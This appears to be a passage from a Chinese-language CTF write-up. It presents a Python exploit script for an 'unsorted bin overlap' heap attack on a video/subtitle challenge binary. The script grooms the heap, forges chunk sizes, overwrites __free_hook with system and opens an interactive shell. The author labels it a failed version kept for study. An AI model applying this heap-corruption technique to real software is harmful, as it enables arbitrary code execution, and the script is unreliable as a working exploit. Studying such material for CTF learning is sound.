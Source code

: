 # 0x06 unsorted bin overlap代码

这个是失败版本的，虽然没用但是也可以学习参考下。。。

```python
# overlap unsorted bin attack----------------------------
create_video("for subtitle content",0x20) #16
create_video("unsorted bin construct", 0x80) #17
create_video("for subtitle struct", 0x18) #18
create_video("for subtitle content",0x20, p64(0x140) + p64(0x30)) #19 fake next chunk
create_video("for video struct", 0x50) #20

remove(idx + 16)
remove(idx + 17)
remove(idx + 18)
remove(idx + 19)
remove(idx + 20)

create_subtitle(0x21, "A" * 0x21) #21


payload = "S" * 7
payload += "A" * 0x60
payload += p64(0x141)

recreate_subtitle(0xffffffff, payload)
#0x60 is struct of one of the video
#this extent size of unsorted bin chunk


payload = "A" * 0xf0
payload += p64(prog_addr + 0x203C10)
payload += "A" * 4 + p32(8)
payload += p64(libc_addr + e.symbols["__free_hook"])
create_video(payload, 0x130)

edit_subtitle(idx + 21, p64(libc_addr + e.symbols["system"]))
remove(0)

sh.interactive()
```

